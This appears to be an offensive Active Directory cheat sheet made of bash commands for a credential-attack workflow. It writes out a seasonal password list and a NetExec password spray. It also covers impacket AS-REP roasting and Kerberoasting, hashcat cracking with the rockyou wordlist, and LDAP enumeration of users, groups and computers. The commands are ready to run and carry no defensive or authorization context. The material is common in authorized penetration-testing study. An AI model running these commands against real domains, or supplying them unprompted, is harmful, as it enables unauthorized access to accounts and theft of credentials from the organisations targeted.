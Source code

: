 ## Create common AD password list for spraying
```bash
cat > passwords.txt << 'EOF'
Password123!
Welcome123!
Summer2024!
Spring2024!
CompanyName2024!
EOF
```

## Password spray with NetExec
```bash
# -p 'Password123!' for single OR -p passwords.txt for file
# Change protocol: smb, ldap, OR winrm
netexec smb $IP -u users.txt -p passwords.txt --continue-on-success
```

## ASREPRoast discovered users without credentials
```bash
# Add -format hashcat -outputfile asrep.hash for direct hashcat output
impacket-GetNPUsers domain.local/ -dc-ip $IP -no-pass -usersfile users.txt
```

## Crack ASREPRoast hashes with hashcat
```bash
# Add --show to display already cracked hashes
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```

## Enumerate domain with valid credentials via NetExec
```bash
# ldap: add --password-policy, --users, --groups, --computers as needed
# smb: add --shares for share enumeration
netexec ldap $IP -u username -p password --users --groups --computers
```

## Kerberoast service accounts with credentials
```bash
# impacket: add -outputfile kerb_hashes.txt OR use netexec with --kerberoasting
impacket-GetUserSPNs domain.local/username:password -dc-ip $IP -request
```

## Crack Kerberoast hashes with hashcat
```bash
# Add --show to display already cracked hashes
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt
```
